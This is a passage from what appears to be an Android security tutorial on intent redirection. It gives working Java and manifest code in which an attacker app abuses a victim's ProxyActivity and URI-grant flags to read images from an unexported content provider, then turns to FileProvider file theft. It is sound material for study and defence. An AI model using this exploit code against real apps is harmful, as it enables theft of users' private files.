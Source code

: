 An example of a typical provider where an attacker can gain access to it and perform regular operations like `query`, `update`, `insert`, `delete`, `openFile`, `openAssetFile`

```markup
<provider android:name="com.victim.ContentProvider" android:exported="false" android:authorities="com.victim.provider" android:grantUriPermissions="true"/>
```

Example of the theft of user pictures `AndroidManifest.xml` file

```markup
<activity android:name=".LeakActivity" android:exported="true" />
```

`MainActivity.java` file

```java
Intent extra = new Intent();
extra.setFlags(Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
        | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION
        | Intent.FLAG_GRANT_READ_URI_PERMISSION
        | Intent.FLAG_GRANT_WRITE_URI_PERMISSION);
extra.setClassName(getPackageName(), "com.attacker.LeakActivity");
extra.setData(Uri.parse("content://com.victim.provider/"));

Intent intent = new Intent();
intent.setClassName("com.victim", "com.victim.ProxyActivity");
intent.putExtra("extra_intent", extra);
startActivity(intent);
```

`LeakActivity.java`

```java
Uri uri = Uri.parse(getIntent().getDataString() + "image/1")); // content://com.victim.provider/image/1
Bitmap bitmap = BitmapFactory.decodeStream(getContentResolver().openInputStream(uri)); // stolen image
```

## Attacks on Android File Provider

This vulnerability also makes it possible for the attacker to **steal app files** located in directories that the developer predetermined. For a successful attack, the malign app needs to **obtain access rights to Android File Provider and then read content from the file provider using Android ContentResolver**.

Example file provider (for more details see [https://developer.android.com/reference/android/support/v4/content/FileProvider](https://developer.android.com/reference/android/support/v4/content/FileProvider))

```markup
<provider android:name="androidx.core.content.FileProvider" android:exported="false" android:authorities="com.victim.files_provider" android:grantUriPermissions="true">
    <meta-data android:name="android.support.FILE_PROVIDER_PATHS" android:resource="@xml/provider_paths"/>
</provider>
```
